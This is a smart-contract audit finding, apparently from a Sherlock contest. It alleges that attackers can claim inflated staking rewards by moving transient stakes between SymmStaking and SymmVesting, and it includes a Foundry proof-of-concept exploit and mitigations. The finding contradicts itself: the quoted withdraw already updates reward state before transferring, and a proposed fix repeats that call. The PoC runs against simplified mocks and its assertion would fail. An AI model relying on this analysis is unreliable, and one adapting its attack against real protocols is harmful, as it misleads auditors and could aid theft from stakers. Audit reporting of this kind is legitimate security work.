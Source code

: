 Fun Porcelain Lynx

High

# Attacker will exploit transient stakes to claim inflated rewards from stakers

### Summary

The lack of synchronization between token withdrawals in SymmStaking and liquidity additions in SymmVesting will cause inflated reward claims for attackers as they will exploit transient stakes to manipulate reward calculations.



### Root Cause

The choice to allow immediate use of withdrawn tokens from SymmStaking in SymmVesting's addLiquidity function without validating the staking state is a mistake, as it enables attackers to exploit the timing discrepancy between reward updates and token movements. Specifically:
- In SymmStaking.sol, the withdraw function transfers SYMM tokens to the specified address (e.g., SymmVesting) without updating reward states synchronously.
```solidity
function withdraw(uint256 amount, address to) external nonReentrant whenNotPaused {
		_updateRewardsStates(msg.sender);

		if (amount == 0) revert ZeroAmount();
		if (to == address(0)) revert ZeroAddress();
		if (amount > balanceOf[msg.sender]) revert InsufficientBalance(balanceOf[msg.sender], amount);
		IERC20(stakingToken).safeTransfer(to, amount);
		totalSupply -= amount;
		balanceOf[msg.sender] -= amount;
		emit Withdraw(msg.sender, amount, to);
	}
```

- In SymmVesting.sol, the _addLiquidityProcess function does not check whether the tokens being used were recently withdrawn from SymmStaking, allowing manipulation of transient stakes.
- code: https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/SymmVesting.sol#L124-L162



### Internal Pre-conditions

1. Attacker needs to stake a large amount of SYMM tokens in SymmStaking to set the staking balance high enough to influence reward calculations significantly.

2. Attacker needs to withdraw the staked SYMM tokens immediately after staking to transfer them to SymmVesting before the reward state is updated.

3. The reward calculation in SymmStaking must not have been updated yet when the attacker calls _addLiquidityProcess in SymmVesting, ensuring the transient stake still affects the reward pool.



### External Pre-conditions

None

### Attack Path

1. Attacker stakes a large amount of SYMM tokens by calling deposit in SymmStaking, triggering the _updateRewardsStates function to recalculate rewards based on the increased stake.

2. Attacker immediately withdraws the staked SYMM tokens by calling withdraw in SymmStaking with the to address set to SymmVesting, transferring the tokens before the reward state reflects the withdrawal.

3. Attacker uses the withdrawn SYMM tokens to add liquidity in SymmVesting by calling _addLiquidityProcess, manipulating price quotes or vesting states due to the transient stake.

4. Attacker claims inflated rewards from SymmStaking by calling claimRewards, as the reward calculation still reflects the large transient stake.



### Impact

- Stakers suffer an approximate loss of rewards as the attacker claims an outsized portion of the reward pool, reducing the rewards available for legitimate stakers.

- The attacker gains inflated rewards proportional to the transient stake, effectively draining value from the staking pool at the expense of other participants.

Severity
High - This vulnerability allows attackers to claim inflated rewards with minimal effort, directly impacting the fairness and integrity of the staking reward system. The attack requires only control over a large amount of SYMM tokens and precise timing, making it feasible and profitable. The economic impact on legitimate stakers and the protocol’s reputation justifies a high severity rating.





### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract SymmStaking {
    IERC20 public stakingToken;
    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;

    constructor(address _stakingToken) {
        stakingToken = IERC20(_stakingToken);
    }

    function deposit(uint256 amount, address to) external {
        stakingToken.transferFrom(msg.sender, address(this), amount);
        totalSupply += amount;
        balanceOf[to] += amount;
        // Simulate reward state update (simplified)
    }

    function withdraw(uint256 amount, address to) external {
        totalSupply -= amount;
        balanceOf[msg.sender] -= amount;
        stakingToken.transfer(to, amount);
        // Reward state not immediately updated
    }

    function claimRewards() external view returns (uint256) {
        return balanceOf[msg.sender] * 2; // Simplified reward calc
    }
}

contract SymmVesting {
    IERC20 public symmToken;

    constructor(address _symmToken) {
        symmToken = IERC20(_symmToken);
    }

    function addLiquidity(uint256 amount) external {
        symmToken.transferFrom(msg.sender, address(this), amount);
        // No staking state validation
    }
}

contract RecursiveTokenFlowExploit is Test {
    SymmStaking public staking;
    SymmVesting public vesting;
    IERC20 public symmToken;
    address public attacker;

    function setUp() public {
        symmToken = IERC20(address(new MockERC20()));
        staking = new SymmStaking(address(symmToken));
        vesting = new SymmVesting(address(symmToken));
        attacker = address(0x123);

        // Fund attacker with 1M SYMM tokens
        MockERC20(address(symmToken)).mint(attacker, 1_000_000 * 10**18);
    }

    function testExploit() public {
        vm.startPrank(attacker);
        symmToken.approve(address(staking), 1_000_000 * 10**18);

        // Step 1: Stake tokens
        staking.deposit(1_000_000 * 10**18, attacker);

        // Step 2: Withdraw tokens to SymmVesting
        staking.withdraw(1_000_000 * 10**18, address(vesting));

        // Step 3: Add liquidity with withdrawn tokens
        symmToken.approve(address(vesting), 1_000_000 * 10**18);
        vesting.addLiquidity(1_000_000 * 10**18);

        // Step 4: Claim inflated rewards (simplified check)
        uint256 rewards = staking.claimRewards();
        assertGt(rewards, 0); // In reality, compare to expected inflated amount
        vm.stopPrank();
    }
}

contract MockERC20 is IERC20 {
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function mint(address to, uint256 amount) external {
        balanceOf[to] += amount;
    }

    function transfer(address to, uint256 amount) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) external returns (bool) {
        allowance[from][msg.sender] -= amount;
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }
}
```

### Mitigation

To prevent this exploit, consider the following measures:
1. Synchronize Token Flows: Introduce a delay or locking mechanism in SymmStaking that prevents withdrawn tokens from being used in SymmVesting until the reward state is fully updated.

2. Immediate Reward Updates: Modify SymmStaking’s withdraw function to call _updateRewardsStates before transferring tokens, ensuring the reward calculation reflects the current stake.

3. Validate Token Source: Add a check in SymmVesting’s _addLiquidityProcess to reject tokens recently withdrawn from SymmStaking, possibly via a timestamp or state-tracking mechanism.

